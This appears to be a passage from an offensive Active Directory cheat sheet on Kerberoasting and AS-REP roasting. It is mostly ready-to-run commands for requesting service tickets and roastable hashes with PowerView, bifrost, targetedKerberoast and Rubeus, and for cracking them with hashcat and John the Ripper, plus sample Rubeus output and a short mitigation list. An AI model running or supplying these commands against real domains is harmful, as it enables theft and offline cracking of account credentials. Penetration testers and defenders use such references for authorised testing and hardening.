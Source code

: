 * [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
  ```powershell
  Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
  ```

* [bifrost](https://github.com/its-a-feature/bifrost) on **macOS** machine
  ```powershell
  ./bifrost -action asktgs -ticket doIF<...snip...>QUw= -service host/dc1-lab.lab.local -kerberoast true
  ```

* [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)
  ```powershell
  # for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute), 
  # print the "kerberoast" hash, and delete the temporary SPN set for that operation
  targetedKerberoast.py [-h] [-v] [-q] [-D TARGET_DOMAIN] [-U USERS_FILE] [--request-user username] [-o OUTPUT_FILE] [--use-ldaps] [--only-abuse] [--no-abuse] [--dc-ip ip address] [-d DOMAIN] [-u USER] [-k] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key]
  ``` 


Then crack the ticket using the correct hashcat mode (`$krb5tgs$23`= `etype 23`) 
	
| Mode    | Description  |
|---------|--------------|
| `13100` | Kerberos 5 TGS-REP etype 23 (RC4) |
| `19600` | Kerberos 5 TGS-REP etype 17 (AES128-CTS-HMAC-SHA1-96) |
| `19700` | Kerberos 5 TGS-REP etype 18 (AES256-CTS-HMAC-SHA1-96) |

```powershell
./hashcat -m 13100 -a 0 kerberos_hashes.txt crackstation.txt
./john --wordlist=/opt/wordlists/rockyou.txt --fork=4 --format=krb5tgs ~/kerberos_hashes.txt
```


Mitigations: 
* Have a very long password for your accounts with SPNs (> 32 characters)
* Make sure no users have SPNs

### KRB_AS_REP Roasting

> If a domain user does not have Kerberos preauthentication enabled, an AS-REP can be successfully requested for the user, and a component of the structure can be cracked offline a la kerberoasting

**Requirements**:
- Accounts with the attribute **DONT_REQ_PREAUTH** (`PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose`)

* [Rubeus](https://github.com/GhostPack/Rubeus)
  ```powershell
  C:\Rubeus>Rubeus.exe asreproast /user:TestOU3user /format:hashcat /outfile:hashes.asreproast
  [*] Action: AS-REP roasting
  [*] Target User            : TestOU3user
  [*] Target Domain          : testlab.local
  [*] SamAccountName         : TestOU3user
  [*] DistinguishedName      : CN=TestOU3user,OU=TestOU3,OU=TestOU2,OU=TestOU1,DC=testlab,DC=local
  [*] Using domain controller: testlab.local (192.168.52.100)
  [*] Building AS-REQ (w/o preauth) for: 'testlab.local\TestOU3user'
  [*] Connecting to 192.168.52.100:88
  [*] Sent 169 bytes
  [*] Received 1437 bytes
  [+] AS-REQ w/o preauth successful!
  [*] AS-REP hash:

  $krb5asrep$TestOU3user@testlab.local:858B6F645D9F9B57210292E5711E0...(snip)...
  ```
